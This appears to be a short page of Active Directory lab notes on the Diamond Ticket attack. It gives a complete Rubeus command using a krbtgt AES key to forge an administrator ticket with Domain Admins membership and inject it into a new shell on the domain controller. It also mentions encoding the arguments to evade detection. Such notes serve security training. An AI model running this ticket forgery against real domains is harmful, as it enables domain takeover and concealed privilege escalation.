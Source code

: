 # 💎 Diamond Ticket attack

We can simply use the following Rubeus command to execute the attack. Note that the command needs to be run from an elevated shell (Run as administrator). We take the usual OPSEC care of using Loader and ArgSplit to encode the arguments "diamond"

```
C:\AD\Tools\Rubeus.exe diamond /krbkey:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /tgtdeleg /enctype:aes /ticketuser:administrator /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt 
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

This will spawn a shell, now we can access the DC

{% embed url="https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/diamond-ticket" %}
